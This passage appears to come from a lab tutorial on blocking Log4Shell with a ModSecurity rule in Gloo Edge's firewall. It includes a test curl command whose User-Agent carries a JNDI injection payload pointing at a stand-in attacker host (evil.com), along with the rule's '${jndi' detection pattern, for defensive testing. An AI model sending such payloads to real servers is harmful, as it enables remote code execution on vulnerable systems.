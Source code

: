 Line 2 is the condition that is applied to the variables listed in Line 1. In this case, we're matching against strings that begin with `${jndi`.

Finally, Line 3 defines the action to be taken when the rule is matched. In this case, we are denying the request and passing back a `403 Forbidden` error code.

Now, if you try to make a request containing a header that exploits this vulnerability the request will be rejected before reaching the service.

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

Since one of the REQUEST_HEADERS (`User-Agent`) contains a value that matches the regular expression in the ModSec rule, you should see the request rejected with a `403 Forbidden` error, like this:

```log,nocopy
HTTP/1.1 403 Forbidden
content-length: 27
content-type: text/plain
date: Mon, 13 Dec 2021 23:56:13 GMT
server: envoy

Log4Shell malicious payload
```

However, the same curl request with a proper `User-Agent` header would be accepted with no errors.

```bash
curl -H "User-Agent: curl/7.74.0" http://httpbin.solo.io/anything -i
```

Here's a snippet of the expected response:

```
HTTP/1.1 200 OK
server: envoy
date: Mon, 13 Dec 2021 23:59:34 GMT
content-type: application/json
content-length: 383
...
{
  "args": {}, 
  ...
  "headers": {
    ...
    "User-Agent": "curl/7.74.0", 
    ...
  }, 
  ...
  "url": "http://httpbin.kubernetes.rmtxxkufojcx.instruqt.io/anything"
}
```

For more information on the log4j vulnerability, check our blog "[Block Log4Shell attacks with Gloo Edge](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/)".

To learn about the WAF capabilities of Gloo Edge check out "[Web Application Firewall - Gloo Edge Docs](https://docs.solo.io/gloo-edge/latest/guides/security/waf/)"
